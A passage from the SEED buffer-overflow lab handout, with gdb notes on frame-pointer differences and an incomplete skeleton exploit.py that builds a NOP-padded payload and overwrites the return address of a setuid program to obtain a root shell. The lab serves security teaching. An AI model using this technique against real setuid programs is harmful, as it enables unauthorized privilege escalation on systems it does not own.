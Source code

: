 **Note 1.** When gdb stops inside the bof() function, it stops before the ebp register is set to point to the current stack frame, so if we print out the value of ebp here, we will get the caller's ebp value. We need to use next to execute a few instructions and stop after the ebp register is modified to point to the stack frame of the bof() function. The SEED book is based on Ubuntu 16.04, and gdb's behavior is slightly different, so the book does not have the next step.

**Note 2.** It should be noted that the frame pointer value obtained from gdb is different from that during the actual execution (without using gdb). This is because gdb has pushed some environment data into the stack before running the debugged program. When the program runs directly without using gdb, the stack does not have those data, so the actual frame pointer value will be larger. You should keep this in mind when constructing your payload.

### 5.2 Launching Attacks

To exploit the buffer-overflow vulnerability in the target program, we need to prepare a payload, and save it inside badfile. We will use a Python program to do that. We provide a skeleton program called exploit.py, which is included in the lab setup file. The code is incomplete, and students need to replace some of the essential values in the code.

_Listing 3: exploit.py_
```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x90\x90\x90\x90"  
  "\x90\x90\x90\x90"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x00           # Change this number 
offset = 0              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
After you finish the above program, run it. This will generate the contents for badfile. Then run the vulnerable program stack. If your exploit is implemented correctly, you should be able to get a root shell:
```bash
$./exploit.py # create the badfile

$./stack-L1 # launch the attack by running the vulnerable program  <---- Bingo! You've got a root shell!
```
If you get a non-root shell (`$`) instead of a root shell (`#`), consider how `setuid` works. Ensure the target binary is owned by `root` and has the `setuid` bit configured. Further, ensure that your symbolic links are appropriately configured to point `/bin/sh` to `zsh` instead of `dash`.
